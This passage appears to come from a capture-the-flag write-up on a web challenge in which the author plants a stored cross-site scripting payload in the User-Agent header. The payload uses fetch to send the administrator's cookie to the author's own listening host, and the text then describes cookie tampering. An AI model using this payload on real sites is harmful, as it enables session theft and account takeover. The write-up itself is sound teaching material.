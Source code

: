     - ![suspicious message](./headless/sus_response.jpg)

The message said that hacking attemp was detected so a report with my browser information was sent to administrator. 

### Building strategy
Now it's time to build some strategy. Here our browser information is being sent to administrator, and our browser information is stored in User-Agent header. So, if we set/embed our payload in User-Agent header by using burpsuite, our payload is gonna reach the administrator. 

But what will we do after reaching to administrator?

Absolutely right, we are not able to fetch dashboard page because our cookie is set with some "user" parameter value. If we fetch the cookie of administrator and did some cookie tampering in dashbord page, we migh be able to get the dashboard page.

## Exploitation

First I started a http server using command `python -m httpserver`. It started a server on my ip on port 8000. I intercepted the request using burp and edited the User-Agent header with my payload:
```html
<!-- payload -->
<svg onload='fetch("http://my_ip:port/" + document.cookie)>
```
and sent the request. Within 5-6 seconds I recieved message with admin's cookie in my terminal.